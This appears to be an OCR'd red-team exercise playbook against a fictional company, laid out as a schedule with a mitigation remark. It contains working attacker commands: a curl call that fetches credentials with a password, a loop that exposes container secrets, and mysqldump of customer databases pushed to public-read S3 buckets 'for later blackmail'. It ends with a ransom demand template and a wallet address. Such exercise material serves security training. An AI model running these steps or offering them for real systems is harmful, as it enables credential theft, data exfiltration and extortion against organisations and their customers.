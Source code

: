 Password to get the creds is `GreenIsD3@dm3@t`

CURL command should look like:
`curl https://BIGLONGRANDOMCRAP.lambda-url.us-east-1.on.aws/GreenIsD3@dm3@t | jq .`

**Mitigation:** detection and removal of the CF Stack was the proper response here.

### Persistence - Expose the Secrets

```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	./scripts/p0wn-secrets.sh
done
```

## 11:00 Wednesday
*Quiet Time*

*11:30 Lunch*

## noon - 14:00 Wednesday

### Exfiltration - Capture the customer database

```bash
for city in `cat cities.txt` ; do
	mysqldump -f -u nuculus --password=SonofAnton --host=meme-db.$city.fooli.wtf --set-gtid-purged=OFF --skip-lock-tables --column-statistics=0 memedb > data/$city/customerdb.sql
	aws s3 cp data/$city/customerdb.sql s3://$city.fooli.wtf-customer-dumps --acl public-read
done
```

URL for later blackmail is: \
https://s3.console.aws.amazon.com/s3/buckets/lisbon.fooli.wtf-customer-dumps?region=us-east-1&tab=objects


### Conduct Ransom Demands against each team.

Script:

	Greetings,

	We are an APT group that has gained access to your confidential data. We have infiltrated your network and have been monitoring your activities for some time now. We have discovered a treasure trove of highly sensitive material, including classified memes, trade secrets, and intellectual property.

	We are not interested in using this information for personal gain. Instead, we seek to offer you a chance to reclaim your data. In order to do so, we require a ransom payment of $1,000,000 in FooliCoin.

	Failure to pay the ransom will result in the release of all sensitive information to the public. We will also destroy all of the data on your systems and corrupt all backups, rendering them useless.

	To pay the ransom, you must transfer the FooliCoin to the following address: bc1qq8gwlmj4x9nr4crwtd6j56wf96krsw9z4t3nux
